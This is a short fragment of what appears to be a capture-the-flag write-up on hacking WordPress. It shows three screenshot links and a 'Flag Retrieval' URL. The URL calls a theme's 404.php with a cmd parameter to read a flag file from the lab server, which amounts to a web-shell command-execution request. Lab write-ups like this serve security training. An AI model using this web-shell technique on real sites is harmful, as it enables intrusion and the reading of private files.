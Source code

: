 ![alt text](screenshots/Hacking_Wordpress/21.PNG)


![alt text](screenshots/Hacking_Wordpress/22.PNG)


![alt text](screenshots/Hacking_Wordpress/23.PNG)
**Flag Retrieval:**
```
http://94.237.51.6:59835/wp-content/themes/twentysixteen/404.php?cmd=cat+/home/wp-user/flag.txt
```
